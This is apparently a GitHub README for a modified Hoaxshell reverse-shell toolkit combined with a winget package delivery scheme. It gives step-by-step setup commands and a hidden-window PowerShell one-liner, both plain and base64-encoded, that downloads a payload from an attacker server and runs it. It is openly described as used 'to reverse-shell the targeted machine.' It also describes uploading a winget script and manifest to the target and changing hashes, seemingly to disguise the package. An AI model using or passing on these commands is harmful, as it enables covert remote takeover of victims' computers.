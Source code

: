 <img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Hoax.png" width="500">

# sp-hoaxshell

Copy of the real Hoaxshell (https://github.com/t3l3machus/hoaxshell) with modifications to automatise everything
& see : https://github.com/SentinelSamuel/sp-hoaxshell

## Installation + configuration before the start
```
sudo git clone https://github.com/t3l3machus/hoaxshell.git
sudo rm ./hoaxshell/hoaxshell.py
sudo git clone https://github.com/SentinelSamuel/sp-hoaxshell.git
sudo mv ./sp-hoaxshell/hoaxshell.py ./hoaxshell
sudo mv ./sp-hoaxshell/sp-hoax/ ./
sudo rm -rf ./sp-hoaxshell
sudo pip3 install -r ./hoaxshell/requirements.txt
sudo chmod +x ./hoaxshell/hoaxshell.py
cd sp-hoax/
```

### 1) Start Python server
```
# maybe a sudo before ?
bash python-server-1.sh
```
<img src="https://github.com/SentinelSamuel/sp-winget-RS-hoax/blob/main/img-for-Readme/Picture2.png" width="400">

### 2) Start hoaxshell
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
bash hoaxshell-2.sh  
```
### 3) Make the info file correct
```
# IN ANOTHER BASH PROMPT
# maybe a sudo before ?
pwsh info-3.ps1
```


## Some infos :
```
# Not encoded :
$e=Invoke-RestMethod -Uri "http://10.1.1.3:70/sp-hoax/info"; powershell -WindowStyle hidden -e $e
```
```
# Encoded with this :
$text='<Your commands>'
$encoded=[convert]::ToBase64String([Text.Encoding]::Unicode.getBytes($text))
$encoded
```
```
# Encoded & used in the scripts to reverse-shell the targeted machine
powershell -WindowStyle hidden -e "JABlAD0ASQBuAHYAbwBrAGUALQBSAGUAcwB0AE0AZQB0AGgAbwBkACAALQBVAHIAaQAgACIAaAB0AHQAcAA6AC8ALwAxADAALgAxAC4AMQAuADMAOgA3ADAALwBzAHAALQBoAG8AYQB4AC8AaQBuAGYAbwAiADsAIABwAG8AdwBlAHIAcwBoAGUAbABsACAALQBXAGkAbgBkAG8AdwBTAHQAeQBsAGUAIABoAGkAZABkAGUAbgAgAC0AZQAgACQAZQA="
```

## AFTER INSTALLING AND DOING EVERYTHING IN THE sp-hoaxshell
Winget.ps1 & winget-manifest.yml --> upload on the target machine

## Installation & configuration before the start :
```
git clone https://github.com/SentinelSamuel/sp-winget-RS-hoax.git
cd ./sp-winget-RS-hoax/winget
``` 

### 4) Start Sha256 changer
```
sudo bash change-sha256.sh
```

